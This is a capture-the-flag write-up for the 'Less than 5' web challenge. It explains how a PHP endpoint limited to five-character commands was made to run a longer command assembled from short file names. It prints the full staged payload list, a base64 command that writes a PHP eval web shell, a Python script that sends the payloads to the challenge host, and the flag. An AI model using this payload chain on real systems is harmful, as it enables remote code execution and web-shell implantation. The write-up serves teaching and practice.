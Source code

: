 # Web: Less than 5 

![image](https://user-images.githubusercontent.com/74207547/164990551-4ab3d77a-363c-400e-932f-6063131ebac4.png)

## Website:

![image](https://user-images.githubusercontent.com/74207547/164990589-4978a78f-0952-46e6-ae9f-36a25ec5398a.png)

There is a blank white page. Let's test parameters from challenge description - `cmd` and `reset`

![image](https://user-images.githubusercontent.com/74207547/164990694-7b04edc3-8752-449b-b88e-620366e2f8f6.png)

![image](https://user-images.githubusercontent.com/74207547/164990699-6d901926-4fae-4b53-9b27-8c2214586ff2.png)

We don't get any output from that. Maybe we should search for some **edge cases** to see how app behaves.

![image](https://user-images.githubusercontent.com/74207547/164991052-8d48fafe-25ec-477c-b6d3-91b84153ce6e.png)

**Null byte** works as always in php scritps. Now we can check how length control is being handled.

![image](https://user-images.githubusercontent.com/74207547/164991027-ddf10e53-b2a7-4f43-8636-5ff3683febb1.png)
![image](https://user-images.githubusercontent.com/74207547/164990967-bedaee60-a230-4ff9-a7ac-8adf3d604add.png)

Input build of more than 5 characters is **not going throught exec function.**

## Fight with input length:

At first I thought the challenge was about simple command injection.
I tried using `*`, `>` to read flag or index.php but didn't get anything.
The length of 5 was too small to get any progress there.
The only thing that I acomplished was creating files with short names and reading them.
This led me to **executing ls and reading the output.**
![image](https://user-images.githubusercontent.com/74207547/164991334-687b6b23-0897-4d13-8acf-3a83715c427d.png)
![image](https://user-images.githubusercontent.com/74207547/164991343-4fd447ab-f0e9-4e1d-bfce-008700baad4b.png)

That's something. At that moment I knew the challenge is about creating payload from multiple files.
It is also said in challenge description that files are being removed every 2 mins so keep that in mind.

## Research:

After feeling a bit helpless I started to google for **short php** payloads. I stumbled upon few interesting articles.
* [blog.spacepatroldelta.com](https://blog.spacepatroldelta.com/a?ID=01800-96c1d853-a6ab-4a27-b2c5-157e586418d3)
* [blog.csdn.net/](https://blog.csdn.net/nzjdsds/article/details/102940762)


In above articles they are basically spliting the command `echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php` in multiple files.
Then they are using `ls -t>0` to sort files by the time they were created and put all of them into one file - `0`.
When that succeed they execute `0` with `sh 0` and the outcome is `1.php` file with php content - **`<?php eval($_GET[1]);`** which enables executing any command we want.
Backslashes `\\` keep all files as one payload and `${IFS}` is being used to replace one of the spaces.

![image](https://user-images.githubusercontent.com/74207547/164992329-77f4dacf-4211-4e8f-bc2d-1182fae6c29b.png)

The hardest part is executing `ls -t>0`. This line have much more than 5 chars so how they got around it?

![image](https://user-images.githubusercontent.com/74207547/164992694-919a57d3-18a9-4016-ae52-3b5fa4b8ce69.png)

**That's black magic. What even is that?**

First we need to understand few commands:
* dir - same as ls
* rev - reverses the input `echo 1234|rev` -> `4321`

So at first they are building a reversed payload. With `*>v` they are calling dir (first file in the folder in alphabetical order) which lists other files and then saves it to `v` file.
Next they uses rev to reverse the payload and move it to another file `0`
Well that works. Pretty crazy way to get around it.

**I found everything that is needed right? Copy, paste, run, didn't work. Unfortunately, it wasn't that simple.**

## Local setup

I created a simple php script that simulates the behavior of the challenge.
```php
<?php 
  if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5){exec($_GET['cmd']);}
?>
```

After a while I knew what didn't work. When building up a `ls -t` from files there is one diffrence between articles and actual challenge. We also have `index.php` in same directory which breaks the whole payload.

![image](https://user-images.githubusercontent.com/74207547/164993458-fca51e60-afec-4289-ac5a-d8cc49fc85ff.png)

Index.php got between the files and whole thing was messed up. I had to find reversed payload that will go after `index.php`

```
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
```

**Found it!** Below how it works.

![image](https://user-images.githubusercontent.com/74207547/164993612-daf15c12-49a7-4148-a232-0d4e3fd799bc.png)

# Solution:

I created simple python script which creates all the files needed and calls `1.php` endpoint to check if it worked.

```python
import requests 

url = "http://142.93.209.130:8003/?cmd={0}"

with open("payload.txt","r") as f:
        for i in f:
                print("[*]" + url.format(i.strip()))
                requests.get(url.format(i.strip())) 

test = requests.get("http://142.93.209.130:8002/1.php")
if test.status_code == requests.codes.ok:
        print("Success!!!")
```

```
payload.txt
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
>php
>1.\\
>\>\\
>d\\
>\-\\
>\ \\
>4\\
>e6\\
>s\\
>ba\\
>\|\\
>4K\\
>Pz\\
>7\\
>k\\
>XS\\
>x\\
>Fs\\
>V\\
>dF\\
>0\\
>kX\\
>g\\
>bC\\
>h\\
>XZ\\
>Z\\
>Ag\\
>H\\
>wa\\
>9\\
>PD\\
>\}\\
>FS\\
>I\\
>\{\\
>$\\
>ho\\
>ec\\
sh 0
sh n
```
![image](https://user-images.githubusercontent.com/74207547/164993848-6d436385-4934-4bb7-8873-755b58b3939b.png)
![image](https://user-images.githubusercontent.com/74207547/164993863-0feef127-dbce-4cab-ae6f-966020a5c176.png)

## FLAG: ictf{5ch4r5_4re_3n0ugh_bd903}
